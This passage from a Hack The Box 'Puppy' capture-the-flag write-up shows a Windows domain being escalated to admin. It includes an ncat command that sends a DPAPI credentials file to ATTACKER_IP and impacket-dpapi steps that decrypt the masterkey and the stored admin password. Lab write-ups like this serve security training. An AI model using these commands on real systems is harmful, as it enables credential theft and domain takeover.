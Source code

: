 `ncat` on the target was once again used, but this time to send the encrypted credentials file.

```
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Local\Temp> cmd /c "ncat ATTACKER_IP 4444 --send-only <C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"
```

#### 🔼 Priv Esc to Steph Cooper Adm

`impacket-dpapi` was then used to extract the decryption key from the master key file.

```
fcoomans@kali:~/htb/puppy$ impacket-dpapi masterkey -file loot/masterkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password ChefSteph2025!
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

And the decrypted key was then used to decrypt the credentials in the `loot/creds` file.  This showed that the saved password for `steph.cooper_adm` was `FivethChipOnItsWay2025!`.

```
fcoomans@kali:~/htb/puppy$ impacket-dpapi credential -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 -file loot/creds
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description :
Unknown     :
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

`nxc` confirmed that the password was still valid and since this user was a member of the `Administrators` groups, also printed `Pwn3d!` as the domain was now compromised.

